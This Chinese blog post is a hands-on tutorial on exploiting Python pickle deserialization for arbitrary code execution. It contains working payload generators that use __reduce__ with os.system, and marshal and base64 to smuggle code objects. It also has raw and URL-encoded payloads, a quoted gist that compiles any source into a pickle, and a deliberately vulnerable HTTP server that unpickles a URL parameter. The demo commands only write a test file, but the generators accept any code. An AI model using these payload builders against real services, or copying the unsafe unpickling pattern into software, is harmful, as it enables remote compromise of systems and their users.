

Title: Python Pickle的任意代码执行漏洞实践和Payload构造
Date: 2017-03-22 10:20
Category: Python
Tags: python, Pickle, 漏洞
Slug: 
Authors: bit4
Summary: 

# 0x01 Pickle的典型应用场景 #

  一般在什么场景下需要用到Pickle？

1. 通常在解析认证token，session的时候。现在很多web都使用redis、mongodb、memcached等来存储session等状态信息。P神的文章就有一个很好的redis+python反序列化漏洞的很好例子：[https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)。
2. 可能将对象Pickle后存储成磁盘文件。
3. 可能将对象Pickle后在网络中传输。
4. 可能参数传递给程序，比如sqlmap的代码执行漏洞
   python sqlmap.py –pickled-options “Y29zCnN5c3RlbQooUydkaXInCnRSLg==”

# 0x02 如何构造Payload #

特别说明，以下测试代码均可在我的github上下载：

[https://github.com/bit4woo/code2sec.com/tree/master/code/PickleRCE]( https://github.com/bit4woo/code2sec.com/tree/master/code/PickleRCE)

**1.本地执行简单系统命令的Payload**

 首先构造一个简单的包含漏洞的代码。后续的验证过程中，将生成的Payload放到poc.pickle文件中，使用该代码来读取PoC验证效果（我将其保存为pickle_verify.py）。

```python
  # !/usr/bin/env python
  # -*- coding:utf-8 -*-
  __author__ = 'bit4'
  __github__ = 'https://github.com/bit4woo'
  __filename__ = 'pickle_verify.py'
  
  import pickle
  
  pickle.load(open('./poc.pickle'))
```

 值得注意的是，pickle有load和loads2个方法，load需要的参数是文件句柄，loads所需要的参数是字符串。

 pickle允许任意对象去定义一个reduce方法来申明怎么序列化这个对象。这个方法返回一个字符串或者元组来描述当反序列化的时候该如何重构。

 使用os.system执行命令的payload，保存为`pickle_poc_gen.py`

```python
  # !/usr/bin/env python
  # -*- coding:utf-8 -*-
  __author__ = 'bit4'
  __github__ = 'https://github.com/bit4woo'
  __filename__ = 'pickle_poc_gen.py'

  import cPickle
  import os
  import urllib

  class genpoc(object):
      def __reduce__(self):
          s = """echo test >poc.txt"""  #要执行的命令
          return os.system, (s,)        #os.system("echo test >poc.txt")

  e = genpoc()
  poc = cPickle.dumps(e)

  print poc
  print urllib.quote(poc)
  fp = open("poc.pickle","w")
  fp.write(poc)
```

  

  输出内容，也就是Payload (poc)：

      cnt
      system
      p1
      (S’echo test >poc.txt’
      p2
      tRp3
      .

  url编码后的payload，用于URL中传递给web服务器：

  `cnt%0Asystem%0Ap1%0A%28S%27echo%20test%20%3Epoc.txt%27%0Ap2%0AtRp3%0A`

  我们将如上生成的pyload放到poc.pickle文件中，然后执行验证代码pickle_verify.py，成功执行了”echo test >poc.txt” (在当前目录生成一个poc.txt，其中的内容是test)。

  现在问题来了，如何在实际的web环境中使用这些payload呢？

  我们先实现一个简单的httpserver（pickle_verify_httpserver.py）：

```python
  # !/usr/bin/env python
  # -*- coding:utf-8 -*-
  __author__ = 'bit4'
  __github__ = 'https://github.com/bit4woo'
  __filename__ = 'pickle_verify_httpserver.py'

  import BaseHTTPServer
  import urllib
  import cPickle

  class ServerHandler(BaseHTTPServer.BaseHTTPRequestHandler):
      def do_GET(self):
          if "?payload" in self.path:
              query= urllib.splitquery(self.path)
              action = query[1].split('=')[1]
              print action
              action = urllib.unquote(action)
              print action
              try:
                  x = cPickle.loads(action) #string argv
                  content = "command executed"
              except Exception,e:
                  print e
                  content = e
          else:
              content = "hello World"

          self.send_response(200)
          self.send_header("Content-type","text/html")
          self.end_headers()
          self.wfile.write("<html>")
          self.wfile.write(" %s " % content)
          self.wfile.write("</html>")

  if __name__ == '__main__':
      srvr = BaseHTTPServer.HTTPServer(('',8000), ServerHandler)
      print 'started httpserver...'
      srvr.serve_forever()
```

  

  运行以上代码后，将运行一个监听本地8000端口的web服务器，通过如下URL访问，传递Payload给服务器。

```
http://127.0.0.1:8000/?payload=cnt%0Asystem%0Ap1%0A(S%27echo%20test%20%3Epoc.txt%27%0Ap2%0AtRp3%0A.
```

  也和本地环境一样，成功运行了命令，生成了poc.txt

  在PHP中还有有一种比较常见的思路，通过base64编码后传递，如下这种，那我们可以在python中借鉴。这部分内容包含在了“执行任意python代码的payload”小节中。

  http://www.xxx.com?path=php://filter/write=convert.base64-decode/resource=1.php

  **2.执行任意python代码的payload**

  我们的目标是实现任意代码执行，所以我们要序列化的对象成了code类型，但是pickle是不能序列化code对象的。

  但幸运的是，从python2.6起，包含了一个可以序列化code对象的模块–Marshal。由于python可以在函数当中再导入模块和定义函数，所以我们可以将自己要执行的代码都写到一个函数里foo()， 所以有了如下代码：

```python
  # !/usr/bin/env python
  # -*- coding:utf-8 -*-
  __author__ = 'bit4'
  __github__ = 'https://github.com/bit4woo'
  __filename__ = 'pickle_poc_gen0.py'

  import marshal
  import base64
  import cPickle
  import urllib

  def foo():#you should write your code in this function
      import os
      def fib(n):
          if n <= 1:
              return n
          return fib(n-1) + fib(n-2)
      print 'fib(10) =', fib(10)
      os.system('echo anycode >>poc.txt')

  try:#尝试使用cPickle来序列号代码对象
      cPickle.dumps(foo.func_code)
  except Exception as e:
      print e #TypeError: can't pickle code objects

  code_serialized = base64.b64encode(marshal.dumps(foo.func_code))
  print code_serialized
```

  

  想要这段输出的base64的内容得到执行，我们需要如下代码：

      (types.FunctionType(marshal.loads(base64.b64decode(code_enc)), globals(), ”))()

  写得更容易阅读点就是这样：
​    

```python
code_str = base64.b64decode(code_enc)
code = marshal.loads(code_str)
func = types.FunctionType(code, globals(), ”)
func()
```

  把这段代码转换成pickle后的格式，需要了解pickle的数据格式和指令。详细的转换过程可以参考：https://www.cs.uic.edu/~s/musings/pickle/

  c：读取新的一行作为模块名module，读取下一行作为对象名object，然后将module.object压入到堆栈中。

  (：将一个标记对象插入到堆栈中。为了实现我们的目的，该指令会与t搭配使用，以产生一个元组。

  t：从堆栈中弹出对象，直到一个“(”被弹出，并创建一个包含弹出对象（除了“(”）的元组对象，并且这些对象的顺序必须跟它们压入堆栈时的顺序一致。然后，该元组被压入到堆栈中。

  S：读取引号中的字符串直到换行符处，然后将它压入堆栈。

  R：将一个元组和一个可调用对象弹出堆栈，然后以该元组作为参数调用该可调用的对象，最后将结果压入到堆栈中。

  .：结束pickle。

  

  说人话：

  

  1.c：接下来的2行内容类似于，os.system、urllib.unquote是module.object的形式。

  2.(：就是左括号

  3.t：相当于右扩号

  4.S：代表本行后面的内容是String，即字符串。

  5.R：执行紧靠自己左边的一个括号对中的内容，即( 和他t直接的内容。

  6..：点号结束pickle。

  

  图一

  

  最终的可以执行任意代码的payload生成器（第一种）,foo()函数中的部分是你应该自己编写替换的代码：

```python
  # !/usr/bin/env python
  # -*- coding:utf-8 -*-
  __author__ = 'bit4'
  __github__ = 'https://github.com/bit4woo'
  __filename__ = 'pickle_poc_gen0.py'

  import marshal
  import base64
  import cPickle
  import urllib

  def foo():#you should write your code in this function
      import os
      def fib(n):
          if n <= 1:
              return n
          return fib(n-1) + fib(n-2)
      print 'fib(10) =', fib(10)
      os.system('echo anycode >>poc.txt')

  try:#尝试使用cPickle来序列号代码对象
      cPickle.dumps(foo.func_code)
  except Exception as e:
      print e #TypeError: can't pickle code objects

  code_serialized = base64.b64encode(marshal.dumps(foo.func_code))
  print code_serialized

  
#为了保证code_serialized中的内容得到执行，我们需要如下代码
#(types.FunctionType(marshal.loads(base64.b64decode(code_serialized)), globals(), ''))()

payload =  """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))

print "------------------------------------------------"
print payload
fp =open("poc.pickle","w")
fp.write(payload)
print "------------------------------------------------"
print urllib.quote(payload)
```


将以上代码生成的payload分别用于pickle_verify.py和pickle_verify_httpserver.py中进行测试。均成功执行命令。

注意：用于pickle_verify_httpserver.py的payload和上面一样还是需要url编码后的。

图二：



——————–分割线（另外一段不成熟payload生成代码的分析）—————————————

在网上看到了另外一个生成代码：<https://gist.github.com/freddyb/3360650>

我们看一下他的代码并尝试利用上面的序列化规则“翻译”一下：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = 'pickle_poc_gen1.py'
#from https://gist.github.com/freddyb/3360650

try:
    import cPickle as pickle
except ImportError:
    import pickle

from sys import argv

def picklecompiler(sourcefile):
    """ 
    Usually pickle can only be used to (de)serialize objects.
    This tiny snippet will allow you to transform arbitrary python source
    code into a pickle string. Unpickling this string with pickle.loads()
    will execute the given soruce code.
    The trick is actually prettey easy: Usually eval() will only accept
    expressions, thus class and function declarations does not work.
    Using the work-around of code objects (returned by compile()), we can
    execute real python source code :)
    """
    sourcecode = file(sourcefile).read()
    payload = "c__builtin__\neval\n(c__builtin__\ncompile\n(%sS'<payload>'\nS'exec'\ntRtR." % (pickle.dumps( sourcecode )[:-4],)
    print payload
    fp =open("poc.pickle","w")
    fp.write(payload)


def usage():
    print "usage: ./%s file\n\nfile\tfile to compile into a pickle string" % argv[0]

if len(argv) == 2:
    print repr(picklecompiler(argv[1]))
else:
    usage()
```


再尝试还原成python代码，基本就是下面的语句

```python
  builtin.eval(builtin.compile(%s,'<payload>’,’exec’)) % cmd
  eval(compile(%s,'<payload>’,’exec’)) % cmd
```


对以上代码生成的payload进行了测试，也只是成功执行了未包含函数和类的python代码，包含函数和类的则未执行成功。


**3.终极payload生成器**


分析到最后，发现其实有老外已经做过更加底层，更加详细的分享，并且也提供了Poc生成脚本

参考：

<http://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf>

地址：

<https://github.com/sensepost/anapickle>

该工具中包含了大量的成熟payload，有了以上知识，不难理解其中的代码，也可以自己进行修改了。
​    

## 0x03 参考

- <http://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf>
- <https://blog.nelhage.com/2011/03/exploiting-pickle/>
- <https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html>
- <https://www.cs.uic.edu/~s/musings/pickle/>
- <https://github.com/sensepost/anapickle>
- <https://lincolnloop.com/blog/playing-pickle-security/>
- <https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html>
- <https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html>
- <https://www.cigital.com/blog/python-pickling/>
- <https://gist.github.com/freddyb/3360650>
- <http://blog.knownsec.com/2015/12/sqlmap-code-execution-vulnerability-analysis/>